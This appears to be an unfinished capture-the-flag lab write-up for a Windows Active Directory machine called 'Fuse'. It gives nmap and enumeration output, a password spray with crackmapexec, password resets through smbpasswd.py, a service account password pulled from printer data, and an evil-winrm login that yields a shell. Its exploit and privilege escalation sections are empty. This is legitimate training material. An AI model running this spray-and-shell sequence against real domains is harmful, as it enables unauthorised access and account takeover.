


# Summary


## about target

tip:  10.129.2.5

hostname:  Fuse

Difficulty:  Medium


## about attack


**attack note**

```bash
Fuse / 10.129.2.5

PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html).
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2022-11-13 16:08:35Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: FABRICORP)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49677/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49678/tcp open  msrpc        Microsoft Windows RPC
49679/tcp open  msrpc        Microsoft Windows RPC
49699/tcp open  msrpc        Microsoft Windows RPC
49716/tcp open  msrpc        Microsoft Windows RPC


----interesting 

-- domain info 
# from enum4linux
Domain Name: FABRICORP
Domain Sid: S-1-5-21-2633719317-1471316042-3957863514

# from crackmapexec
Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)

# from web, users
pmerton
tlavel
sthompson
bhult
administrator

# from rpcclient enumprinters
scan2docs password: $fab@s3Rv1ce$1


----enum
enum4linux -a $tip | tee enum4linux.log

-- ldap
crackmapexec smb $tip -u '' --pass-pol

-- http enum
# default 302 to 
http://fuse.fabricorp.local/papercut/logs/html/index.htm

dir scan, no found.

# check the print log, found user
pmerton
tlavel
sthompson
bhult
administrator

-- enum user and password sparay
# cewl dict.
cewl http://fuse.fabricorp.local/papercut/logs/html/index.htm --with-numbers > dict.txt
crackmapexec smb $tip -u user.list -p Fabricorp01 --continue-on-success

# user bhult, tlavel; fabricorp.local\bhult:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE

# change pwd
## smbpasswd not work
smbpasswd -r $tip -U bhult

smbpasswd.py bhult:Fabricorp01@fabricorp.local -newpass "Hack01@123"
smbpasswd.py bhult:Fabricorp01@fabricorp.local -newpass Hack02@123

rpcclient -U bhult%Hack02@123 $tip
querydispinfo

cat users.txt | cut -d " " -f 1 | cut -d ":" -f 2 | cut -d "[" -f 2 | cut -d "]" -f 1 > user.list

crackmapexec smb $tip -u user.list -p '$fab@s3Rv1ce$1' --continue-on-success
svc-print, svc-scan

# check
crackmapexec winrm $tip -u svc-print -p '$fab@s3Rv1ce$1' -x whoami

----- shell
evil-winrm -u svc-print -p '$fab@s3Rv1ce$1' -i $tip

---- local enum


```


# Enum

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip

Nmap scan report for 10.129.2.5
Host is up (0.27s latency).
Not shown: 65512 filtered tcp ports (no-response), 10 filtered tcp ports (host-unreach)
PORT      STATE SERVICE
88/tcp    open  kerberos-sec
389/tcp   open  ldap
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49666/tcp open  unknown
49677/tcp open  unknown
49678/tcp open  unknown
49699/tcp open  unknown
49716/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 131.91 seconds
```


Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip


```








# Exploit


# Privesc


## loca enum


## system


## proof

```bash


```


